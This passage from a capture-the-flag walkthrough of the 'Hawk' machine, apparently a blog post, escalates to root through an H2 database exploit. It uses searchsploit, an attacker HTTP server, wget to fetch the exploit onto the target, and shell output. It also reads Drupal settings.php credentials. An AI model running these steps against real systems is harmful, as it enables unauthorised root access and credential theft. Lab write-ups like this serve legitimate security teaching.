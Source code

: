 The vulnerability seems to be with the fact that you can create a new database without having authentication credentials. When the new database is created the default credentials are created and the attacker is automatically logged in. From there you can execute Java commands and get arbitrary code execution on the box. Since the H2 database is running with root privileges, our code will execute with root privileges.

Let’s download the exploit.

```text
searchsploit -m 45506
```

Set up an HTTP server where the script resides.

```text
python -m SimpleHTTPServer 5555
```

Then download the script in the target machine.

```text
wget http://10.10.14.12:5555/45506.py
```

Run the script.

```text
www-data@hawk:/tmp$ python3 45506.py -H 127.0.0.1:8082
[*] Attempting to create database
[+] Created database and logged in
[*] Sending stage 1
[+] Shell succeeded - ^c or quit to exit
h2-shell$ whoami
root
```

We are root! Grab the _root.txt_ flag.

![](../images/max/585/1*vSyn2AqVgzcDQBYUF-F_7Q.png)

## Extra Content <a id="0ffe"></a>

After rooting the machine, I watched [ippsec’s video](https://www.youtube.com/watch?v=UGd9JE1ZXUI) and discovered two things that I did differently.

**Own the user Daniel**

It turns out the _settings.php_ file for the Drupal application contained credentials to the database.

```text
www-data@hawk:/tmp$ cat /var/www/html/sites/default/settings.php...
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```